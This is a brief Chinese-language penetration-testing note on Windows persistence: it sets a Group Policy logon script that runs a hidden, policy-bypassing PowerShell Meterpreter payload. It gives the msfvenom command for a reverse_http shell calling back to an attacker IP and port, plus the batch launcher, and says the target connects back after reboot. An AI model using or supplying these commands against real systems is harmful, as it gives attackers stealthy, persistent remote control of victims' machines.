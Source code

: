 # 组策略设置脚本启动

gpedit.msc打开组策略，设置登录的时候执行的脚本

![image-20240410151315178](images/29.png)

可以设置为bat脚本

先生成msf木马上传到目标机器

```
msfvenom -p windows/x64/meterpreter/reverse_http lhost=192.168.52.130 lport=3333 -f psh -o shell.ps1
```

创建bat脚本

```
@echo off
powershell.exe ­-w hidden ­-ExecutionPolicy Bypass ­-NoExit ­-File C:\Users\Administart\Desktop\shell.ps1
exit
```

然后添加到组策略启动，重启后就可以上线



参考链接：

https://asants.com/blogx_135.html#/
